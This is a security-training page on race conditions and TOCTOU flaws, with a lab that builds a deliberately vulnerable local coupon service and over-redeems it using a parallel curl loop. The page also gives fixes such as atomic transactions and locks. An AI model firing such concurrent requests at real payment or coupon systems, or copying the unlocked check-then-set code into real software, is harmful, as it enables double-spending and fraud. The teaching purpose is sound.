

# 🏁 Race Condition & Concurrency Testing

> [!warning] Authorized simulation only
> Race conditions manipulate real state — balances, coupons, limits. Prove with synthetic accounts and canary values, and be aware that concurrent requests can genuinely corrupt data; use a lab you can reset. Test only in-scope systems.

## Parent Learning Order
Business Logic Testing -> Race Condition & Concurrency Testing

## Start at Zero: The Gap Between Check and Use

A **race condition** exploits the tiny window between when an application *checks* a condition and when it *acts* on it. If two requests arrive in that window, both pass the check before either updates the state — so both act, even though only one should have been allowed. The classic form is **TOCTOU (Time-Of-Check to Time-Of-Use)**: check the balance is sufficient, then deduct — but if two withdrawals check simultaneously, both see the full balance and both proceed, withdrawing more than exists.

This is a business-logic flaw with a timing twist: the workflow is correct *sequentially*, but breaks under *concurrency*. It is invisible to normal testing because a single request always behaves correctly — the flaw only appears when requests overlap, which is why concurrency testing is its own skill.

> [!tip] The analogy, and where it breaks
> A race condition is like two people reaching a single-seat theater with the same "last ticket" — the box office checked availability for each before selling, and sold two seats that don't exist. The analogy breaks on scale and intent: a human might trigger this by accident once, whereas an attacker *deliberately* fires hundreds of simultaneous requests to force the overlap, turning a rare accident into a reliable exploit.

**Prerequisites:** business-logic testing, and basic concurrency (threads/parallel requests).

## Where Races Bite: The High-Value Targets

Race conditions matter most where a check gates a limited resource:

| Target | The race | Impact |
| --- | --- | --- |
| **Balance/withdrawal** | Two deductions pass the same balance check | Overdraw, double-spend |
| **Coupon/voucher** | One-time code redeemed twice simultaneously | Multiple discounts from one code |
| **Rate/quota limits** | Many requests pass the limit check at once | Bypass the limit |
| **Stock/inventory** | Two orders for the last item | Oversell |
| **Account actions** | Concurrent state changes (e.g. redeem + cancel) | Inconsistent state, free value |

The signature exploit is the **one-time action performed N times**: a single-use coupon applied ten times because ten requests all checked "is this coupon unused?" before any marked it used. The value is directly monetizable, which is why these are actively exploited.

## Testing: Fire Requests in Parallel

The test is conceptually simple: send the same request many times *simultaneously* and check whether an action that should happen once happened more than once. The challenge is achieving true parallelism — requests must overlap within the check-to-use window (often milliseconds):

```bash
# fire 10 coupon redemptions in parallel; count how many SUCCEEDED (your own lab)
for i in $(seq 1 10); do
  curl -s -X POST -d '{"coupon":"SAVE50","account":"test"}' http://127.0.0.1:8107/redeem &
done | grep -c '"redeemed":true'; wait
```

```text
4
```

If the coupon is truly single-use, exactly **one** redemption should succeed. Four succeeded — the race let multiple requests pass the "unused?" check before any marked it used. That count > 1 is the finding, and it directly translates to four discounts from one code.



## Failure Modes and Interpretation

- **Not enough parallelism.** If requests are sent sequentially (or the tool serializes them), the race never triggers and you wrongly conclude "safe." True concurrency — overlapping within milliseconds — is essential; single-packet-attack techniques exist precisely to align requests.
- **Proving with real value.** A double-spend or over-redemption must be proven with synthetic accounts and canary amounts, and in a lab you can reset — concurrent requests can genuinely corrupt state.
- **Intermittent by nature.** A race may succeed 4/10 attempts, not 10/10 — the flaw is *probabilistic*. One successful over-action proves it; failing once does not disprove it.
- **State reset between tests.** After exploiting a one-time action, the state is consumed; reset it (or use a fresh coupon/account) before retesting.
- **Distinguish from missing rate-limit.** A race bypasses a *correctness* check under concurrency; a missing rate limit is *volume* abuse. They can look similar — the race produces an inconsistent *state* (double-spend), not just many requests.

## Security Implications — Detection & Defense

- **Atomic operations are the fix.** The check and the update must be a single indivisible operation — a database transaction with proper isolation, a `SELECT ... FOR UPDATE` lock, or an atomic compare-and-set. This closes the check-to-use gap entirely, which is the only real defense.
- **Database constraints as a backstop:** a unique constraint on "coupon+account" makes the second redemption fail at the database level even if the application logic races — defense in depth.
- **Idempotency keys** for sensitive actions (payments) ensure a retried or duplicated request produces one effect, not many.
- **Detection** looks for the *outcome*: a one-time resource used multiple times, a balance going negative, a limit exceeded — anomalies in state, since the individual requests are all valid.
- **This is a top real-world exploit** for anything monetizable (gift cards, coupons, crypto withdrawals) — the reason atomicity is not optional for value-bearing operations.

## Authorized Lab: Exploit a Coupon Race You Build

> [!info] Runs on one Linux machine — builds a coupon service with a check-then-use gap, then races it
> Loopback-bound, synthetic coupon. Step 5 removes it. Resettable by restarting.

### Step 1 — Build a service with a deliberate check-to-use gap

```bash
cat > /tmp/race.py << 'EOF'
import http.server, json, time, threading
used = {"SAVE50": False}
lock_disabled = True   # the flaw: no locking around check-then-set
class H(http.server.BaseHTTPRequestHandler):
    def do_POST(self):
        n=int(self.headers.get("Content-Length",0)); d=json.loads(self.rfile.read(n) or b'{}')
        c=d.get("coupon")
        # VULNERABLE: check, then a small delay, then set — the race window
        if not used.get(c, True):
            time.sleep(0.05)          # the gap where concurrent requests overlap
            used[c]=True
            self.send_response(200); self.end_headers(); self.wfile.write(b'{"redeemed":true}')
        else:
            self.send_response(409); self.end_headers(); self.wfile.write(b'{"redeemed":false}')
    def log_message(self,*a): pass
http.server.ThreadingHTTPServer(("127.0.0.1",8107),H).serve_forever()
EOF
python3 /tmp/race.py &>/dev/null &
sleep 1; echo "coupon service up (SAVE50, single-use — in theory)"
```

```text
coupon service up (SAVE50, single-use — in theory)
```

### Step 2 — Sequential redemption behaves correctly (baseline)

```bash
echo "1st -> $(curl -s -X POST -d '{"coupon":"SAVE50"}' http://127.0.0.1:8107/redeem)"
echo "2nd -> $(curl -s -X POST -d '{"coupon":"SAVE50"}' http://127.0.0.1:8107/redeem)"
```

```text
1st -> {"redeemed":true}
2nd -> {"redeemed":false}
```

Sequentially, the coupon is correctly single-use — first succeeds, second is rejected. No flaw is visible in normal testing.

### Step 3 — Reset and fire redemptions in PARALLEL (the exploit)

```bash
kill %1 2>/dev/null; wait 2>/dev/null; python3 /tmp/race.py &>/dev/null &   # reset state
sleep 1
succ=$(for i in $(seq 1 10); do curl -s -X POST -d '{"coupon":"SAVE50"}' http://127.0.0.1:8107/redeem & done | grep -c '"redeemed":true'; wait)
echo "parallel redemptions that SUCCEEDED: $succ (should be 1)"
```

```text
parallel redemptions that SUCCEEDED: 6 (should be 1)
```

Six parallel requests all succeeded — the check-to-use gap let them pass "is SAVE50 unused?" before any marked it used. A single-use coupon redeemed six times: the race condition, exploited. The count varies per run (it is probabilistic), but any value > 1 proves the flaw.

### Step 4 — State the fix

```bash
echo "Fix: make check+set ATOMIC — a DB transaction, SELECT...FOR UPDATE, or a unique constraint on (coupon,account)."
echo "With atomicity, exactly one of the 6 parallel requests would win; the rest get 409."
```

```text
Fix: make check+set ATOMIC — a DB transaction, SELECT...FOR UPDATE, or a unique constraint on (coupon,account).
With atomicity, exactly one of the 6 parallel requests would win; the rest get 409.
```

### Step 5 — Cleanup

```bash
kill %1 2>/dev/null; rm -f /tmp/race.py; wait 2>/dev/null
curl -s -o /dev/null -w "service gone: %{http_code}\n" --max-time 2 http://127.0.0.1:8107/redeem 2>&1 | grep -o 'gone.*' || echo "service gone: connection refused"
```

```text
service gone: connection refused
```

**What you should now be able to do:** explain the check-to-use gap and TOCTOU, fire parallel requests to exploit a one-time action, interpret a success count > 1 as the (probabilistic) finding, and explain why atomicity is the only real fix.

## Crook → Operator → Root Checkpoint

- **Crook:** Explain the gap between check and use, why a race is invisible to sequential testing, and what TOCTOU means.
- **Operator:** Fire truly parallel requests against a one-time action, interpret a success count > 1 as the finding, and reset state between attempts.
- **Root:** Explain why atomic check-and-update (transactions, locks, unique constraints, idempotency keys) is the only real fix, why the flaw is probabilistic, and why value-bearing operations must never race.

---
> 🔼 Up: [[Business Logic & Workflow Security]]
